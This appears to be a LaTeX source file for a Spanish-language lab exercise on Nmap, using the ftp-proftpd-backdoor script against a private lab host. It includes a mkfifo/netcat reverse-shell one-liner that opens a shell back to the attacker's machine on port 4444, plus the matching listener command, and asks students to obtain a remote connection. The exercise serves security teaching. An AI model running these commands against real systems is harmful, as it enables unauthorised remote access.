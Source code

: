 \documentclass{article}
\begin{document}
\begin{lstlisting}
 user@kali $ sudo nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=ls" 192.168.56.19
\end{lstlisting}

Este comando va a listar el contenido de un directorio. Podemos conseguir este resultado al modificar los argumentos del script.\\

\begin{lstlisting}
 user@kali $ sudo nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 192.168.56.1 4444 >/tmp/f" 192.168.56.19
\end{lstlisting}

Este comando va a generar una conexi\'on remota hacia el sistema del atacante. Para conseguir esto, se debe abrir el puerto 4444 con \texttt{netcat} en el host. En Kali se puede usar \texttt{nc -lvnp 4444} en una terminal adicional.\\

\section{Ejercicio}

\begin{enumerate}
    \item Identificar el puerto escondido en 192.168.56.19,
    \item Identificar el nombre y versi\'on del servicio en el puerto escondido,
    \item Identificar si el servicio es vulnerable a un exploit conocido,
    \item Obtener una conexi\'on remota cambiando los argumentos del script. 
\end{enumerate}

\begin{thebibliography}{9}
    
    \texttt{https://nmap.org}

    \texttt{man nmap}

    \texttt{https://nmap.org/nsedoc/index.html}

    \texttt{https://nmap.org/book}

    Marsh, Nicholas. \textit{Nmap 6 Cookbook: The Fat-Free Guide to Network Scanning}.2015

\end{thebibliography}
\end{document}
